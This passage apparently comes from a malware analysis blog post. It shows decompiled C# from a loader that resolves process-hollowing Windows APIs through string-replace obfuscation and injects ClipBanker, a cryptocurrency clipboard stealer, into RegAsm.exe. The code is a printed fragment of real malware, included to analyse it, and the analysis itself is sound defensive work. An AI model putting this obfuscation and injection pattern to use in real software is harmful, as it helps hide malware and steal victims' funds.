private static readonly Class1.Delegate8 delegate8_0 = Class1.smethod_0<Class1.Delegate8>("%ll".Replace("%", "ntd"), "#ewOfSection".Replace("#", "ZwUnmapVi"));
private static readonly Class1.Delegate7 delegate7_0 = Class1.smethod_0<Class1.Delegate7>("kern!".Replace("!", "el32"), "!ssMemory".Replace("!", "ReadProce"));
private static readonly Class1.Delegate6 delegate6_0 = Class1.smethod_0<Class1.Delegate6>("kern!".Replace("!", "el32"), "WritePro@".Replace("@", "cessMemory"));
private static readonly Class1.Delegate5 delegate5_0 = Class1.smethod_0<Class1.Delegate5>("kern!".Replace("!", "el32"), "qllocEx".Replace("q", "VirtualA"));
private static readonly Class1.Delegate4 delegate4_0 = Class1.smethod_0<Class1.Delegate4>("kern!".Replace("!", "el32"), "#ontext".Replace("#", "GetThreadC"));
private static readonly Class1.Delegate2 delegate2_0 = Class1.smethod_0<Class1.Delegate2>("kern!".Replace("!", "el32"), "+adContext".Replace("+", "SetThre"));
private static readonly Class1.Delegate1 delegate1_0 = Class1.smethod_0<Class1.Delegate1>("kern!".Replace("!", "el32"), "Wow64Set%".Replace("%", "ThreadContext"));
private static readonly Class1.Delegate0 delegate0_0 = Class1.smethod_0<Class1.Delegate0>("kern!".Replace("!", "el32"), "@Thread".Replace("@", "Resume"));
```

Following this, we can see that 'LAbWJK' - our 2nd executable - is being injected into RegAsm.exe

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/11a435b8-b82e-4d19-b4a0-7f91dcea8088)

The 2nd executable is our main payload, which is ClipBanker Malware.

Within the binary, there are references to the attacker's wallet addresses:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/3313d627-d9db-4b98-b3b2-0be9cfac69bf)

It doesn't look like it's been too successful so far!

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/8892fc96-43d7-4453-b914-7bd92abc9536)




